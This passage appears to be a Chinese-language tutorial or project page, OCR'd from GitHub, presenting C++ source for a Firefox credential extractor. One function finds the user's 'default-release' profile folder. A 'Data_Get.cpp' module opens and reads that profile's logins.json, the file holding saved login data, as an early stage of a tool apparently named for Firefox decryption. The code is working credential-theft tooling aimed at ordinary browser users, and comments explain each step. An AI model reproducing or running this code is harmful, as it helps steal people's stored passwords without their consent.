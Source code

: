 ```c++
		HANDLE hFind = FindFirstFile((sAppDataPath + "\\*").c_str(), &ffd);	// 根据文件名查找文件，成功返回一个句柄
		do {
			if (ffd.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {	// dwFileAttributes是目标文件标记，&表示做与运算，FILE_ATTRIBUTE_DIRECTORY是文件夹的标志符，这句if的功能就是判断目标文件是否为文件夹
				string str = ffd.cFileName;

				if (str.find("release") != str.npos) {	// profiles下带有release的文件夹即为包含logins.json的文件夹，如845f4a08.default-release，安装时随机生成带有release名字的文件
					profileName = ffd.cFileName;
				}
			}
		} while (FindNextFile(hFind, &ffd) != 0);	// 遍历profiles文件夹
		//printf("appdata: %s\n", sAppDataPath.c_str());

		string profilePath = sAppDataPath + profileName;	// logins.json的路径
		return profilePath;
	}
	else
		return Get_failed;
}
	
```

**SHGetFolderPathA**：参考window开发文档[SHGetFolderPathA function](https://docs.microsoft.com/zh-cn/windows/win32/api/shlobj_core/nf-shlobj_core-shgetfolderpatha)





## 获取登录信息模块（Data_Get.cpp）

```c++
#include"Firedox_decrypt.h"
// 获取logins.json中保存的登录信息
char* getBuffer(string profilePath) {
	profilePath = profilePath + "\\logins.json";

	DWORD szBuffer = 100000, szWrotedBytes;
	char* buffer = (char*)malloc(szBuffer);
	HANDLE fLoginFile = CreateFileA(profilePath.c_str(), GENERIC_READ,FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);	// 打开文件logins.json，成功返回句柄
	if (fLoginFile != INVALID_HANDLE_VALUE) {
		if(!(ReadFile(fLoginFile, buffer, szBuffer, &szWrotedBytes, NULL)))	// 读取内容到缓冲区
			printf("File read failed!..\n");
		//printf("%s,\n", buffer);
	}
	else {
		printf("File cannot found!..\n");
	}
	return buffer;
}
```
